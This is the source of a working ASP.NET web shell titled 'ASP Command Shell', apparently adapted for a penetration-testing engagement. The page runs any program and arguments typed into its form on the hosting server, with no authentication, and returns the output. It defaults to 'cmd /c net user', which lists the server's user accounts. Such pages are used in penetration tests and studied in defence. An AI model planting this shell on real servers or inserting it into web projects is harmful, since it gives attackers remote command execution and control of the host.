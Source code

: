 <%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<style>
body {
color: white;
background: black;
}
</style>
<body>    
<div align=center>
<table width="100%" cellspacing="0" cellpadding="0" style="background: #800080; box-shadow:5px 10px 5px black;" >
   <td width="100%" align=center valign="top" rowspan="1">
<div align=center><font color=white size=5 style="font-family: consolas, georgia, helvetica, times new roman, serif;">--==[[ ASP Command Shell ]]==--<br> --==[[ Modified for Synopsys ]]==-- <br>

       <font color=white size=1>  ####################################################################################################################################</font>
</font></div>
</table>

<div align=center  style="margin: 20px ; width: 40%;"><asp:Label id="rr" runat="server" width="500px" font size=5 face="comic sans ms">--==[[ Type Your Command ]]==--</asp:Label>  </div>
<br>    <hr>      
<form runat="server">  
<p><asp:Label id="L_p" runat="server" width="200px">c0mmand g0es h3r3</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">cmd</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="200px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
